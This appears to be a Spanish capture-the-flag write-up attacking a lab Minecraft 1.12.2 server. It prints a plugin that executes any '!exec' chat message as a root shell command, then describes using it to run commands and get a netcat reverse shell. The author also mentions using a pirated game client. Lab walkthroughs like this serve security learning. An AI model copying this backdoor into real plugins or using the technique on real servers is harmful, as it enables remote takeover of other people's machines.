 # Enumeracion de Puertos, Servicios y Versiones

```bash
nmap -Pn -n -sS -sCV -p- --min-rate 5000 172.17.0.2
```

![image](https://github.com/user-attachments/assets/e0a1a898-d45c-43c6-98e7-8fae76500d60)

vemos que corre un servicio web y tambien un servidor Minecraft version 1.12.2, comenzamos analizando la pagina web y observamos un comentario interesante en el codido de la web

![image](https://github.com/user-attachments/assets/1798c9f9-9060-4163-abd2-b1d05677809b)

parece que hace mencion a un archivo .txt `AutoExecPlugin.txt` por lo que testeo a ver si se localiza en el servidor intentando acceder a `http://172.17.0.2/AutoExecPlugin.txt`

```bash
curl http://172.17.0.2/AutoExecPlugin.txt
```

```java
package me.vuln.autoexec;

import org.bukkit.Bukkit;
import org.bukkit.command.CommandSender;
import org.bukkit.entity.Player;
import org.bukkit.event.EventHandler;
import org.bukkit.event.Listener;
import org.bukkit.event.player.AsyncPlayerChatEvent;
import org.bukkit.plugin.java.JavaPlugin;

import java.io.BufferedReader;
import java.io.InputStreamReader;

public class AutoExecPlugin extends JavaPlugin implements Listener {

    @Override
    public void onEnable() {
        getLogger().info("AutoExecPlugin habilitado");
        getServer().getPluginManager().registerEvents(this, this);
    }

    @EventHandler
    public void onPlayerChat(AsyncPlayerChatEvent event) {
        String msg = event.getMessage();
        Player player = event.getPlayer();

        // Detecta comando con prefijo !exec
        if (msg.startsWith("!exec ")) {
            event.setCancelled(true); // CANCELA que se muestre el mensaje en el chat

            String command = msg.substring(6); // Quitar "!exec " del mensaje

            try {
                // Ejecutar comando en la consola del servidor
                Process proc = Runtime.getRuntime().exec(command);
                BufferedReader reader = new BufferedReader(new InputStreamReader(proc.getInputStream()));

                StringBuilder output = new StringBuilder();
                String line;

                while ((line = reader.readLine()) != null) {
                    output.append(line).append("\n");
                }

                proc.waitFor();

                // Enviar salida del comando al jugador que ejecutó el chat
                player.sendMessage("§c[Output]:\n" + output.toString());

            } catch (Exception e) {
                player.sendMessage("§4Error ejecutando comando: " + e.getMessage());
            }
        }
    }
}

```

por lo que se observa el codigo `java` contiene comentarios lo suficientemente explicitos como para saber que hace, simplemente ejecuta comandos en el servidor!!! asi que vamos a testear y para esto tendremos que descargarnos e instalar el juego, solo que
como es de pago usare una version pirata ya que solo quiero explotar el servidor, asi que creare una maquina virtual para instalar una version pirata del juego

![image](https://github.com/user-attachments/assets/82c6f99d-47ed-4eb2-a165-f75afdae8cd2)

aqui debemos seleccionar la misma version que reporto nmap, es decir,  la version 1.12.2

![image](https://github.com/user-attachments/assets/20886ebf-696d-4f24-a03d-b67b31ee7f7b)

ahora configuramos el servidor

![image](https://github.com/user-attachments/assets/cc36d01f-bdbf-4cb0-b20e-2b546aeb51b6)


accedmos al mundo del servidor

![image](https://github.com/user-attachments/assets/73854e21-e0bb-47f8-924c-71fa4abea115)

Ahora intentamos ejecutar comandos usando `!exec <comando>`

![image](https://github.com/user-attachments/assets/14d76aed-7494-4663-abd2-d4b903041ffc)

ejecutamos comandos directamente como root, intento lanzar una revershell pero no la logro obtener, testeando me consigo con que tiene wget instalado

![image](https://github.com/user-attachments/assets/bad53055-a2e8-4950-a883-90d8998942c4)

sin embargo, tampoco me funciona para descargar un archivo php malicioso ya que por alguna razon si se descarga (porque me llega la peticion), pero al buscar el archivo este no existe en el sistema...
Pero despues de intentar con diferentes revershell logro conexion con netcat

![image](https://github.com/user-attachments/assets/535c7285-6f86-4124-8c08-3d1b2f01ffb9)












